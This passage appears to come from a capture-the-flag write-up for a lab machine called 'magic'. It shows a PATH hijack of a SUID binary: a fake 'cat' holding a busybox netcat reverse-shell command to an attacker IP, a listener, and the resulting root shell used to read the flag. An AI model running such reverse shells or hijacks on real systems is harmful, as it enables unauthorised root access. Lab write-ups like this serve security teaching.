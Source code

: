 Check the contents of the fake cat with the real /bin/cat:

```shell
theseus@magic:~$ /bin/cat cat
/bin/cat cat
busybox nc 10.10.14.206 9001 -e bash
```

We are good to go!

Now start our nc listener on Kali and run the /bin/sysinfo binary from the theseus directory:

```shell
nc -lvnp 9001
```

```shell
theseus@magic:~$ /bin/sysinfo
```

After running the /bin/sysinfo binary, we will get a response on our nc listener, giving us a shell as root:

```shell
listening on [any] 9001 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.140.54] 56148
whoami
root
```

### Root Flag
Now we can get the root.txt flag:

```shell
cat /root/root.txt
```


